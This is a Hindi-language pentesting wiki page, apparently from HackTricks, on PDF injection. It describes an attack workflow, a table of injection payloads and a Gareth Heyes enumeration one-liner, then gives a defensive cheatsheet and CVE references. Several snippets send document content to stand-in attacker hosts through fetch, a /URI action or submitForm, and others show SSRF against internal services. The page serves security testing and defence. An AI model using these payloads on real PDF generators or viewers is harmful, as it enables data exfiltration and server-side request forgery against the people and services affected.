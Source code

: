 # PDF Injection

{{#include ../../banners/hacktricks-training.md}}

**यदि आपका इनपुट एक PDF फ़ाइल के अंदर परिलक्षित हो रहा है, तो आप JavaScript निष्पादित करने, SSRF करने या PDF सामग्री चुराने के लिए PDF डेटा इंजेक्ट करने का प्रयास कर सकते हैं।**
PDF सिंटैक्स अत्यधिक अनुमति देने वाला है - यदि आप उस स्ट्रिंग या शब्दकोश से बाहर निकल सकते हैं जो आपके इनपुट को एम्बेड कर रहा है, तो आप पूरी तरह से नए ऑब्जेक्ट (या उसी ऑब्जेक्ट में नए कुंजी) जोड़ सकते हैं जिन्हें Acrobat/Chrome खुशी से पार्स करेगा।
2024 से, बग-बाउंटी रिपोर्टों की एक लहर ने दिखाया है कि *एक अनएस्केप्ड कोष्ठक या बैक-स्लैश पूरी स्क्रिप्ट निष्पादन के लिए पर्याप्त है।*

## TL;DR – आधुनिक हमले का कार्यप्रवाह (2024)
1. किसी भी उपयोगकर्ता-नियंत्रित मान को खोजें जो एक **(कोष्ठक स्ट्रिंग)**, `/URI ( … )` या `/JS ( … )` फ़ील्ड के अंदर समाप्त होता है जो उत्पन्न PDF में है।
2. `) ` (स्ट्रिंग को बंद करना) इंजेक्ट करें, इसके बाद नीचे दिए गए प्राइमिटिव में से एक और एक और उद्घाटन कोष्ठक के साथ समाप्त करें ताकि सिंटैक्स मान्य रहे।
3. दुर्भावनापूर्ण PDF को एक पीड़ित (या एक बैकएंड सेवा को जो स्वचालित रूप से फ़ाइल को रेंडर करती है - अंधे बग के लिए महान) को वितरित करें।
4. आपका पेलोड PDF व्यूअर में चलता है:
* Chrome / Edge → PDFium Sandbox
* Firefox → PDF.js (देखें CVE-2024-4367)
* Acrobat → पूर्ण JavaScript API (इसका उपयोग करके मनमाने फ़ाइल सामग्री को एक्सफिल्ट्रेट कर सकता है `this.getPageNthWord`)

उदाहरण (एनोटेशन लिंक हाइजैक):
```pdf
(https://victim.internal/) ) /A << /S /JavaScript /JS (app.alert("PDF pwned")) >> /Next (
```
*पहला `)` मूल URI स्ट्रिंग को बंद करता है, फिर हम एक नया **Action** शब्दकोश जोड़ते हैं जिसे Acrobat उपयोगकर्ता द्वारा लिंक पर क्लिक करने पर निष्पादित करेगा।*

## उपयोगी इंजेक्शन प्राइमिटिव्स
| लक्ष्य | पेलोड स्निपेट | नोट्स |
|------|-----------------|-------|
| **खुलने पर JavaScript** | `/OpenAction << /S /JavaScript /JS (app.alert(1)) >>` | जब दस्तावेज़ खोला जाता है तो तुरंत निष्पादित होता है (Acrobat में काम करता है, Chrome में नहीं)। |
| **लिंक पर JavaScript** | `/A << /S /JavaScript /JS (fetch('https://attacker.tld/?c='+this.getPageNumWords(0))) >>` | यदि आप `/Link` एनोटेशन को नियंत्रित करते हैं तो PDFium और Acrobat में काम करता है। |
| **ब्लाइंड डेटा एक्सफिल्ट्रेशन** | `<< /Type /Action /S /URI /URI (https://attacker.tld/?leak=)` | सामग्री चुराने के लिए JS के अंदर `this.getPageNthWord` के साथ मिलाएं। |
| **सर्वर-साइड SSRF** | ऊपर जैसा ही लेकिन एक आंतरिक URL को लक्षित करें - जब PDF को बैक-ऑफिस सेवाओं द्वारा प्रस्तुत किया जाता है जो `/URI` का सम्मान करते हैं तो यह शानदार है। |
| **नए ऑब्जेक्ट्स के लिए लाइन ब्रेक** | `\nendobj\n10 0 obj\n<< /S /JavaScript /JS (app.alert(1)) >>\nendobj` | यदि पुस्तकालय आपको नए-लाइन वर्ण इंजेक्ट करने की अनुमति देता है तो आप पूरी तरह से नए ऑब्जेक्ट्स बना सकते हैं। |

## ब्लाइंड एन्यूमरेशन ट्रिक
गैरेथ हेयेस (PortSwigger) ने एक वन-लाइनर जारी किया जो एक अज्ञात दस्तावेज़ के अंदर हर ऑब्जेक्ट को एन्यूमरेट करता है - जब आप उत्पन्न PDF नहीं देख सकते हैं तो यह उपयोगी है:
```pdf
) /JS (for(i in this){try{this.submitForm('https://x.tld?'+i+'='+this[i])}catch(e){}}) /S /JavaScript /A << >> (
```
कोड Acrobat DOM के माध्यम से इटरेट करता है और हर प्रॉपर्टी/वैल्यू पेयर के लिए आउटबाउंड अनुरोध करता है, जिससे आपको फ़ाइल का *JSON-ish* डंप मिलता है। पूरी तकनीक के लिए श्वेत पत्र “Portable Data **ex**Filtration” देखें।

## वास्तविक दुनिया की बग्स (2023-2025)
* **CVE-2024-4367** – Firefox के PDF.js में 4.2.67 से पहले मनमाने JavaScript निष्पादन ने एक तैयार `/JavaScript` क्रिया के साथ सैंडबॉक्स को बायपास किया।
* **बग बाउंटी 2024-05** – प्रमुख फिनटेक ने ग्राहक द्वारा प्रदान किए गए चालान नोट्स की अनुमति दी जो `/URI` में आईं; रिपोर्ट के बाद $10k का भुगतान किया गया जब आंतरिक मेटाडेटा होस्ट के लिए `file:///` URI का SSRF प्रदर्शित किया गया।
* **CVE-2023-26155** – अस्वच्छ PDF पथ के माध्यम से `node-qpdf` कमांड-इंजेक्शन ने PDF परत से पहले बैकस्लैश और कोष्ठकों को एस्केप करने के महत्व को दिखाया।

## डिफेंसिव चीटशीट
1. **कभी भी कच्चे उपयोगकर्ता इनपुट को** `(`…`)` स्ट्रिंग्स या नामों के अंदर संयोजित न करें। PDF स्पेक के §7.3 द्वारा आवश्यकतानुसार `\`, `(`, `)` को एस्केप करें या हेक्स स्ट्रिंग्स `<...>` का उपयोग करें।
2. यदि आप लिंक बनाते हैं, तो `/URI (https://…)` को प्राथमिकता दें जिसे आप *पूर्ण रूप से* URL-कोडित करते हैं; क्लाइंट व्यूअर्स में `javascript:` स्कीमों को ब्लॉक करें।
3. PDFs को पोस्ट-प्रोसेस करते समय `/OpenAction`, `/AA` (अतिरिक्त क्रियाएँ), `/Launch`, `/SubmitForm` और `/ImportData` शब्दकोशों को स्ट्रिप या मान्य करें।
4. सर्वर साइड पर, अविश्वसनीय PDFs को *हेडलेस कनवर्टर* (जैसे qpdf –decrypt –linearize) के साथ रेंडर करें जो JavaScript और बाहरी क्रियाओं को हटा देता है।
5. PDF व्यूअर्स को अद्यतित रखें; PDF.js < 4.2.67 और Acrobat Reader जुलाई 2024 से पहले पैच trivial कोड निष्पादन की अनुमति देते हैं।

## संदर्भ
* Gareth Heyes, “Portable Data exFiltration – XSS for PDFs”, PortSwigger Research (अद्यतन मई 2024)। <https://portswigger.net/research/portable-data-exfiltration>
* Dawid Ryłko, “CVE-2024-4367: Arbitrary JavaScript Execution in PDF.js” (अप्रैल 2024)। <https://dawid.dev/sec/cve-2024-4367-arbitrary-javascript-execution-in-pdf-js>
{{#include ../../banners/hacktricks-training.md}}
